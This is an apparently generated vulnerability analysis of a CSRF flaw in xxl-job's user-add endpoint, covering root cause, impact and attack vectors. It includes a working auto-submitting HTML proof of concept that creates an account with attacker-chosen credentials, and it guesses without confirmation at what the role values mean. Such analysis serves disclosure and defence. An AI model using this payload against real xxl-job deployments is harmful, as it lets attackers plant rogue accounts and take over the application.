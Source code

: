 Based on the provided content, here's an analysis of the vulnerability:

**Root Cause:** The vulnerability stems from a lack of Cross-Site Request Forgery (CSRF) protection in the `/xxl-job-admin/user/add` endpoint of the `xxl-job` application.

**Weaknesses/Vulnerabilities:**
*   **CSRF Vulnerability:** The application does not implement sufficient checks to ensure that requests to add a user originate from a legitimate user session. This allows an attacker to craft a malicious web page that, when visited by an authenticated admin, sends a forged request to add a new user.

**Impact of Exploitation:**
*   **Privilege Escalation:** An attacker can add a new administrator account using the vulnerable endpoint, granting themselves full access to the application. This can lead to further malicious activities such as data exfiltration, denial of service, or complete control over the application.
*  **Account Compromise:** The attacker can create a new account with administrative privileges that they control, which can be used to further compromise the system and/or maintain persistence within the application.

**Attack Vectors:**
*   **Malicious Web Page:** An attacker crafts a malicious HTML page containing JavaScript code that sends a POST request to the vulnerable `/xxl-job-admin/user/add` endpoint. The crafted request adds a new administrative user.
*   **Social Engineering:** The attacker must trick a logged-in administrator into visiting the crafted malicious page, typically through phishing or other social engineering methods.

**Required Attacker Capabilities/Position:**
*   **External Network Access:** The attacker needs to be able to serve a malicious web page to a logged-in administrator.
*   **Administrator Session:** The attack requires a valid authenticated session of a user with administrative privileges on the `xxl-job` application. This session must still be active when the administrator accesses the malicious page.

**Technical Details (from the provided code):**
The provided HTML snippet shows the malicious code designed to exploit the CSRF vulnerability. It creates a form with hidden fields containing the username, password, role, and permission values and submits it to the vulnerable endpoint.

```html
<html><body>
<script type="text/javascript">
function post(url,fields) {
  var p = document.createElement("form");
  p.action = url;
  p.innerHTML = fields;
  p.target = "_self";
  p.method = "post";
  document.body.appendChild(p);
  p.submit();
}
function csrf_hack() {
  var fields;
  fields += "<input type='hidden' name='username' value='test1' />";
  fields += "<input type='hidden' name='password' value='test1' />";
  fields += "<input type='hidden' name='role'    value='0' />";
  fields += "<input type='hidden' name='permission' value='1' />";
  var url = "http://172. 18.71.41:8090/xxl-job-admin/user/add";
  post(url,fields);
}
window.onload = function() { csrf_hack();}
</script>
</body></html>
```
The JavaScript function `csrf_hack()` sets the username, password, role, and permission for the new user. The `role` with value `0` is likely an administrative role, and `permission` with value `1` likely grants permissions to this user. The attacker controls the user name and password of the new user.

**Additional Notes:**

*   The provided HTML code gives the exact way an attacker can exploit the CSRF.

This information is more detailed than the provided CVE description, which was just a placeholder.